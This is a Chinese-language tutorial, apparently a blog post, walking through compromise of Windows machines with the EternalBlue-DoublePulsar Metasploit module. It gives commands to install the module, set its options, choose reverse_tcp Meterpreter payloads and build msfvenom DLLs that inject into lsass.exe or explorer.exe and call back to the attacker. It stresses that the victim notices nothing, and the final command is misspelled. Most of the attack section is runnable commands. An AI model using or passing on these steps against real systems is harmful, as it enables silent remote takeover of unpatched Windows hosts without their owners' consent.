



#利用Metasploit中的Eternalblue和Doublepulsar Exploit远程Windows PC

##如何利用Eternalblue-Doublepulsar完成渗透测试
这个漏洞利用了两个工具“Eternalblue”和“Doublepulsar”的组合，“Eternalblue”它可以作为windows中的后门使用，而“Doublepulsar”则用于在有效载荷的帮助下注入DLL文件。因此，我们将在Metasploit框架中手动添加此漏洞

攻击者：Kali  **IP:192.168.43.196**

victim：所有拥有该漏洞的Windows操作系统  **IP:192.168.43.14**
##首先我需要先通过github获取该漏洞文件，即ruby文件
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```

然后打开文件夹将eternalblue-doublepulsar.rb文件加载到相对应的路径，只有这么做才可以在Metasploit中添加此漏洞

###需要注意的是，我们需要将eternalblue-doublepulsar.rb文件移动到路径
```
/usr/share/metasploit-Framework/module/exploits/windows/smb
```
还需要观察到这里还有一个名为**deps**的文件夹，后面会用到


##接着加载Metasploit开始渗透测试
```
msfconsole
```
该模块通过eternalblue利用SMBv1和SMBv2协议的漏洞。之后，doublepulsar被用于远程注入恶意DLL

Metasploit框架加载完成之后，我们首先输入该命令，使其加载我们刚才添加的漏洞
```
reload_all
```
接下来我们使用该命令搜索刚才添加的漏洞
```
search eternalblue_doublepulsar
```

找到对应的路径时候我们使用该漏洞
```
use windows/smb/eternalblue_doublepulsar
```

###参数讲解
1:***ETERNALBLUEPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps
此处观察到上面所提到的deps文件夹，因为我是将eternalblue_doublepulsar-metasploit文件放在用户的家目录下面，所以我的默认路径就为/root/eternalblue_doublepulsar-metasploit/deps，如果你是将eternalblue_doublepulsar-metasploit文件放在你的Kali桌面上，路径即为/root/Desktop/eternalblue_doublepulsar-metasploit/deps，以此类推
注意更改路径不能错，不然无法渗透成功

2：***DOUBLEPULSARPATH***：该参数的默认路径为/root/eternalblue_doublepulsar-metasploit/deps，也还是提到了deps文件夹，和上述一样的设置即可

3：***PROCESSINJECT***：该参数默认值为lsass.exe，该参数根据你选择的victim的系统而决定，如果victim的系统为x64，则该参数设置为lsass.exe，如果victim的系统为x86，则该参数设置为explorer.exe

4：***TARGETARCHITECTURE***：该参数描述的是victim的系统结构，即x64还是x86，该参数默认值为x86，如果victim的系统为x64，则该参数设置为x64，如果victim的系统为x86，则该参数设置为x86

5：***RHOST/RHOSTS***：该参数默认值为空，该参数设置的是victim的IP地址

6：***RPORT***：该参数的默认值为445，不需要去更改，因为该漏洞就是利用445端口

7：***WINEPATH*** ：该参数是wine运行的路径，设置DLL文件的位置，不需要修改


在上述设置全部完成之后，我们还需要设置payload
对与payload的生成，也需要注意victim的系统架构是x64还是x86，我们直接使用***msfvenom***生成即可

x86的payload为：
```
set payload windows/meterpreter/reverse_tcp 
```
x64的payload为：
```
set payload windows/x64/meterpreter/reverse_tcp 
```

完成之后我们接着设置本地的IP地址和本地监听端口，该地址为Kali的IP地址，本地监听端口只要防火墙没有堵塞的端口都可以
```
set LHOST=x.x.x.x

set LPORT=4444
```

最后我们还记得上面提到的DLL文件吗？
我们也需要根据victim的系统选择生成该DLL文件

x86的DLL文件为：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```
x64的DLL文件为：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f dll -o /root/.wine/drive_c/eternal11.dll
```


万事俱备，只欠一条exploit命令
```
epxloit
```


这是正常渗透成功的页面，无需victim任何操作，而且victim毫无反应，任何提示都没有

现在来查看一下victim系统信息


渗透成功了，是不是很简单，记住渗透过程中的关键点就可以完成这一次渗透测试

Enjoy It!!!

更多优质渗透教程，欢迎访问B站，来关注，投币点赞啊
[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")

如果帮助到你了，希望可以得到你的打赏，谢谢